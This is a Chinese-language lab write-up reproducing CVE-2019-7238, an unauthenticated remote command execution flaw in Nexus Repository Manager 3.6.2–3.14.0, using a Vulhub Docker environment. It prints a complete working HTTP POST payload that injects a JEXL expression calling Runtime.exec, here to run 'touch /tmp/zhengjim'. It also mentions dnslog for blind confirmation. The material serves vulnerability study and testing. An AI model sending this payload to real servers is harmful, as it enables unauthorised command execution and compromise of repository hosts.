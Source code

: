 # Nexus Repository Manager 3 远程命令执行漏洞（CVE-2019-7238）

## 0x01 搭建漏洞环境

*漏洞介绍*

`Nexus Repository Manager`是Sonatype公司的一个产品，简称NXRM，它是一款通用的软件包仓库管理服务，可以简单的理解为Maven的私服。其`Nexus Repository Manager OSS/Pro 3.6.2版本到3.14.0`版本，存在一处基于`OrientDB`自定义函数的任意`JEXL表达式`执行功能，而这处功能存在未授权访问漏洞，将可以导致任意命令执行漏洞

*影响版本*

Nexus Repository Manager OSS/Pro 3.6.2版本到3.14.0版本


利用[Vulhub](https://github.com/vulhub/vulhub)里的`nexus/CVE-2019-7238`的nexus版本作为漏洞环境，启动命令为：
```
docker-compose up -d
```
等待一段时间，访问`http://your-ip:8081/`即可看到web页面，说明`nexus`已成功启动。

使用账号密码`admin/admin123`登录平台，然后在`maven-releases`下随便上传一个jar包：

![](./img/1.png)

上传原因为触发该漏洞，必须保证仓库里至少有一个包存在。

## 0x02 漏洞复现

接口没有校验权限，所以直接发送如下数据包，即可执行`touch /tmp/zhengjim`命令：

POST包
```
POST /service/extdirect HTTP/1.1
Host: 192.168.10.128:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 373
Connection: close

{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":50,"sort":[{"property":"name","direction":"ASC"}],"filter":
[{"property":"repositoryName","value":"*"},{"property":"expression","value":"233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/zhengjim')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":8}
```
![](./img/2.png)

发送数据包，到服务器查看发现命令已经执行成功

![](./img/3.png)

复现成功

有人会认为没回显，可以使用dnslog。

